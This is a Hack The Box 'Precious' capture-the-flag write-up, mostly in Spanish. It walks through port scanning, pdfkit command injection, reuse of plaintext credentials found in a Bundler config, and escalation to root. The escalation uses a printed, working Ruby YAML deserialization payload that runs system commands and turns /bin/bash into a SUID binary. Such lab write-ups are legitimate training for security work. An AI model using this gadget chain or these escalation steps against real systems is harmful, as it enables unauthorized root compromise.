



+++
author = "Andrés Del Cerro"
title = "Hack The Box: Precious Writeup | Easy"
date = "2024-08-05"
description = ""
tags = [
    "HackTheBox",
    "Precious",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "Linux",
    "Information Leakage",
    "Abusing pdfkit v0.8.6",
    "CVE-2022-25765",
    "User Pivoting",
    "Command Injection",
    "Abusing Bundler",
    "Abusing Sudoers",
    "Deserialization",
    "YAML Deserialization"

]

+++

# Hack The Box: Precious Writeup

Welcome to my detailed writeup of the easy difficulty machine **"Precious"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```shell
$ rustscan -a 10.129.228.98 --ulimit 5000 -g
10.129.228.98 -> [22,80]
```

```shell
$ nmap -p22,80 -sCV 10.129.228.98 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-05 16:48 CEST
Nmap scan report for 10.129.228.98
Host is up (0.037s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.02 seconds
```

Encontramos el dominio `precious.htb`, así que lo añadimos al `/etc/hosts`
# UDP Enumeration

```shell
$ sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.228.98 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-05 16:49 CEST
Nmap scan report for 10.129.228.98
Host is up (0.036s latency).
Not shown: 1494 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
21898/udp closed unknown
23256/udp closed unknown
25249/udp closed unknown
28692/udp closed unknown
31743/udp closed unknown
61142/udp closed unknown
```

El punto de entrada a esta máquina debe de ser el puerto 80/TCP

# HTTP Enumeration


Vemos que efectivamente, el servidor nos hace una solicitud.
```shell
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.129.228.98 - - [05/Aug/2024 16:53:09] "GET / HTTP/1.1" 200 -
```

Me interesa saber el `User-Agent` ya que quizás pueda revelar información relevante, así que me voy a poner en escucha con `netcat`

```shell
$ sudo nc -lvnp 8081
listening on [any] 8081 ...
connect to [10.10.14.18] from (UNKNOWN) [10.129.228.98] 39566
GET / HTTP/1.1
Host: 10.10.14.18:8081
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/602.1 (KHTML, like Gecko) wkhtmltopdf Version/10.0 Safari/602.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-US,*
```

Detectamos que se está usando `wkhtmltopdf` el cual tiene una vulnerabilidad SSRF que ya he explotado en otras ocasiones, pero esta vez por ahí no van los tiros.

# Command Injection -> Foothold
Si nos descargamos un PDF generado por esta aplicación y miramos los metadatos, podemos ver lo siguiente

```shell
$ exiftool owh68flhpo0qrmf14hqn7slwa51tkwks.pdf 
ExifTool Version Number         : 12.57
File Name                       : owh68flhpo0qrmf14hqn7slwa51tkwks.pdf
Directory                       : .
File Size                       : 11 kB
File Modification Date/Time     : 2024:08:05 16:53:10+02:00
File Access Date/Time           : 2024:08:05 16:53:10+02:00
File Inode Change Date/Time     : 2024:08:05 16:57:24+02:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

`pdfkit v0.8.6`
Una simple búsqueda en Google..


Utilizando este [PoC](https://github.com/shamo0/PDFkit-CMD-Injection)




# User Pivoting
En busca de la flag me dí cuenta de un directorio  un tanto inusual, `.bundle`

```shell
ls -la
total 28
drwxr-xr-x 4 ruby ruby 4096 Aug  5 06:39 .
drwxr-xr-x 4 root root 4096 Oct 26  2022 ..
lrwxrwxrwx 1 root root    9 Oct 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .bundle
drwxr-xr-x 3 ruby ruby 4096 Aug  5 06:39 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
```

¡Unas credenciales!
```shell
ls -la
total 12
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .
drwxr-xr-x 4 ruby ruby 4096 Aug  5 06:39 ..
-r-xr-xr-x 1 root ruby   62 Sep 26  2022 config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

Investigando sobre este archivo, es una herramienta para gestionar las dependencias de los proyectos en Ruby.

```shell
 ssh henry@10.129.228.98
The authenticity of host '10.129.228.98 (10.129.228.98)' can't be established.
ED25519 key fingerprint is SHA256:1WpIxI8qwKmYSRdGtCjweUByFzcn0MSpKgv+AwWRLkU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.228.98' (ED25519) to the list of known hosts.
henry@10.129.228.98's password: 
Linux precious 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
henry@precious:~$
```

Y podríamos leer la flag de usuario.
```shell
henry@precious:~$ cat /home/henry/user.txt 
0801b15e447149...
```
# Privilege Escalation
Podemos ejecutar el script `/opt/update_dependencies.rb` como el usuario `root`

```shell
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Este es el script
```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

Al buscar en Google el método `YAML.load` el cual me llamó la atención...


Me llamó la atención ya que este archivo se carga de forma relativa, por lo cual podríamos secuestrar el archivo `dependencies.yml` y conseguir la deserialización.

Vamos a usar [este](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/) PoC.

Nos creamos un archivo `dependencies.yml`
```yml
henry@precious:/tmp$ cat dependencies.yml 
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

Ahora si todo sale bien, se debería de ejecutar el comando `id` que es el que está en el campo `git_set`

```shell
henry@precious:/tmp$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
	33: from /opt/update_dependencies.rb:17:in `<main>'
	32: from /opt/update_dependencies.rb:10:in `list_from_file'
	31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
	30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
....
```

Y podemos ver que se ejecuta.

Ahora solo falta cambiar el comando que queremos ejecutar en el archivo `dependencies.yml`


```shell
henry@precious:/tmp$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

Ahora ejecutamos el script...
```shell
henry@precious:/tmp$ sudo /usr/bin/ruby /opt/update_dependencies.rb
```

```shell
henry@precious:/tmp$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
henry@precious:/tmp$ bash -p
bash-5.1# id
uid=1000(henry) gid=1000(henry) euid=0(root) groups=1000(henry
```
Y ya nos hemos convertido en `root`.

Y podríamos leer la flag.
```shell
bash-5.1# cat /root/root.txt
57c37a02615a95fcde....
```

¡Y ya estaría!

Happy Hacking! 🚀